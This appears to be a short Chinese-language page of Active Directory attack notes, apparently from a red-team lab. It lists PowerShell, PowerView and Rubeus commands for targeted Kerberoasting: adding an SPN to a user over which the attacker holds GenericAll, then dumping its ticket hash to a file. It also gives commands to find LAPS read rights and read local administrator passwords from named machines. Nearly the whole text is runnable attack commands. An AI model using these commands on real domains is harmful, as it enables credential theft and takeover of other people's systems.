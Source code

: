 前提：对目标用户有GenericAll权限

AD
```
Set-ADUser -Identity Support132User -ServicePrincipalNames @{Add='us/myspn132'} -Verbose
```

pv
```
Set-DomainObject -Identity Support132User -Set @{serviceprincipalname='us/myspn132'} -Verbose
```

查看SPN(ad)
```
Get-ADUser -Identity Support132User -Properties ServicePrincipalName | select ServicePrincipalName
```

Kerberoast 这个spn

```
Rubeus.exe kerberoast /user:Support132User /simple /rc4opsec /outfile:C:\AD\Tools\targetedhashes.txt
```

# LAPS

## 查看对哪台机器有LAPS
```
C:\AD\Tools\Get-LapsPermissions.ps1
```

也可以使用powerview
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

## 读取密码

1. 使用ActiveDirectory module读取密码
```
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

2. 使用LAPS module
引入AdmPwd
```
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
```

```
Get-AdmPwdPassword -ComputerName us-mailmgmt
```

3. 使用pv
```
Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd
```
